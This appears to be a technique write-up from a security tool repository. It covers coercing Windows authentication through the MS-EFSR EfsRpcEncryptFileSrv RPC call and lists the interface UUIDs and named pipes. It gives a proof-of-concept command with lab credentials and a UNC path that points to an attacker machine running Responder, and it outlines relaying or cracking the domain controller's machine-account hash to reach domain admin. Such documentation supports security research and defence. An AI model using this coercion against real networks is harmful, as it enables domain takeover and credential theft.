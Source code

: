 # MS-EFSR - Remote call to EfsRpcEncryptFileSrv (opnum 4)

## Summary

+ **Protocol**: [[MS-EFSR]: Encrypting File System Remote (EFSRPC) Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31)

+ **Function name**: [`EfsRpcEncryptFileSrv`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/0d599976-758c-4dbd-ac8c-c9db2a922d76)

+ **Function operation number**: `4`

+ **RPC Interfaces**:
   + Interface 1:
     - uuid=`c681d488-d850-11d0-8c52-00c04fd90f7e`
     - version=`1.0`
     - Accessible through:
       + SMB named pipe: `\PIPE\lsarpc`
       + SMB named pipe: `\PIPE\lsass`
       + SMB named pipe: `\PIPE\netlogon`
       + SMB named pipe: `\PIPE\samr`
   + Interface 2:
     - uuid=`df1941c5-fe89-4e79-bf10-463657acf44d`
     - version=`1.0`
     - Accessible through:
       + SMB named pipe: `\PIPE\efsrpc`


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `\pipe\lsarpc` and bind to the desired [`MS-EFSR`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31) protocol (with uuid `c681d488-d850-11d0-8c52-00c04fd90f7e` and version `1.0`) in order to perform remote procedure calls to functions in the [`MS-EFSR`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `\PIPE\lsarpc`. This pipe is connected to the protocol [[MS-EFSR]: Encrypting File System Remote (EFSRPC) Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31) and allows to call RPC functions of this protocol. It will then call the remote [`EfsRpcEncryptFileSrv`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/0d599976-758c-4dbd-ac8c-c9db2a922d76) function on the Windows Server (192.168.2.1) with the following parameters:

```cpp
EfsRpcEncryptFileSrv("\\\\192.168.2.51\\share\\file.txt\x00")
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share\file.txt` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!

## Accepted UNC paths

By using [Coercer](https://github.com/p0dalirius/Coercer) in fuzz mode, we can find the following UNC paths working in this function:

| Protocol | UNC Path |
|----------|----------|

Source: [coercer-fuzz.png](./imgs/coercer-fuzz.png)

---

## Function technical detail

```cpp
long EfsRpcEncryptFileSrv(
    [in] handle_t binding_h,
    [in, string] wchar_t* FileName
);
```

+ **binding_h**: This is an RPC binding handle parameter, as specified in [C706] and [MS-RPCE] section 2.


+ **FileName**: An EFSRPC identifier as specified in section 2.2.1. 

## References

+ Documentation of protocol [MS-EFSR]: Encrypting File System Remote (EFSRPC) Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31


+ Documentation of function `EfsRpcEncryptFileSrv`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/0d599976-758c-4dbd-ac8c-c9db2a922d76
